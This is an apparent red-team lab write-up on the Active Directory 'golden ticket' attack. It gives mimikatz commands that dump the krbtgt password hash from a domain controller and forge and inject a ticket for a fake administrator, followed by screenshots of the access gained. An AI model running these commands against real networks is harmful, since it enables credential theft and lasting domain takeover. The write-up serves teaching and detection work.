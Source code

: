 ```yaml
---
layout: post
title: "2024-06-18-kerberos golden tickets"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberos-golden-tickets/
---
```


---
description: Persistence and Privilege Escalation with Golden Kerberots tickets
---

# Kerberos: Golden Tickets

This lab explores an attack on Active Directory Kerberos Authentication. To be more precise - an attack that forges Kerberos Ticket Granting Tickets \(TGT\) that are used to authenticate users with Kerberos. TGTs are used when requesting Ticket Granting Service \(TGS\) tickets, which means a forged TGT can get us any TGS ticket - hence it's golden.

This attack assumes a Domain Controller compromise where `KRBTGT` account hash will be extracted which is a requirement for a successful Golden Ticket attack.

## Execution

Extracting the krbtgt account's password `NTLM` hash:

{% code title="attacker@victim-dc" %}
```csharp
mimikatz # lsadump::lsa /inject /name:krbtgt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-krbtgt-hash.png)

Creating a forged golden ticket that automatically gets injected in current logon session's memory:

{% code title="attacker@victim-workstation" %}
```text
mimikatz # kerberos::golden /domain:offense.local /sid:S-1-5-21-4172452648-1021989953-2368502130 /rc4:8584cfccd24f6a7f49ee56355d41bd30 /user:newAdmin /id:500 /ptt
```
{% endcode %}

![](../../.gitbook/assets/kerberos-golden-create.png)

Checking if the ticket got created:

![](../../.gitbook/assets/kerberos-golden-klist.png)

Opening another powershell console with low privileged account and trying to mount a `c$` share of `pc-mantvydas` and `dc-mantvydas` - not surprisingly, returns access denied:

![](../../.gitbook/assets/kerberos-golden-denied.png)

However, switching back to the console the attacker used to create the golden ticket \(local admin\) and again attempting to access `c$` share of the domain controller - this time is a success:

![](../../.gitbook/assets/kerberos-golden-granted.png)

## Observations

![](../../.gitbook/assets/kerberos-golden-logon.png)

![](../../.gitbook/assets/kerberos-golden-share.png)

## References

{% embed url="https://blog.stealthbits.com/complete-domain-compromise-with-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=1515" %}

@spotheplanet

